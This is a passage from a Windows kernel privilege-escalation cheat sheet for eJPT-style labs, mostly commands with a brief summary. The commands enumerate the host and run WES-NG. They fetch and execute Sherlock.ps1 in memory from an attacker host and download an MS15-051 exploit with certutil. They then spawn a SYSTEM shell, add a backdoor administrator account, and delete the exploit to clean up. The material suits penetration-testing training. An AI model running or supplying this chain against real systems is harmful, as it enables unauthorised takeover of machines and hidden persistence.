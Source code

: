 ## Minimal cheat sheet (one-screen flow)
```
:: Target: enumerate
whoami & whoami /all & whoami /priv
wmic os get Caption,Version,BuildNumber,OSArchitecture
wmic qfe get HotFixID,InstalledOn,Description
systeminfo > C:\Users\Public\systeminfo.txt

:: Attacker: suggest exploits
pip3 install wesng --user
~/.local/bin/wesng --update
~/.local/bin/wesng -e -i "Elevation of Privilege" systeminfo.txt > wesng-eop.txt

:: Optional in-memory Sherlock
powershell -nop -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2:8000/Sherlock.ps1'); Find-AllVulns"

:: Transfer chosen exploit (example: MS15-051)
certutil -urlcache -f http://10.10.14.2:8000/MS15-051x64.exe MS15-051.exe

:: Execute (spawn SYSTEM shell)
MS15-051.exe "cmd.exe"

:: Or execute a SYSTEM command (add local admin)
MS15-051.exe "cmd.exe /c net user jack P@ssw0rd! /add && net localgroup administrators jack /add"

:: Verify and cleanup
whoami & whoami /all
del C:\Users\Public\MS15-051.exe
```

## Summary
- Kernel exploits target OS kernel components (e.g., win32k.sys) to escalate privileges to SYSTEM. They’re powerful but risky—use only when OS/build/hotfix analysis strongly indicates a matching, stable CVE.
- The core workflow: enumerate OS/build/hotfixes → run a suggester (WES-NG/Watson/Sherlock) → pick a kernel EoP that fits → transfer and run exploit → verify SYSTEM → clean up.
- In eJPT-style labs, MS15-051 and similar win32k.sys EoPs are commonly demonstrated. Precision in version/architecture, careful tooling, and minimal footprint help you escalate reliably without crashing the target.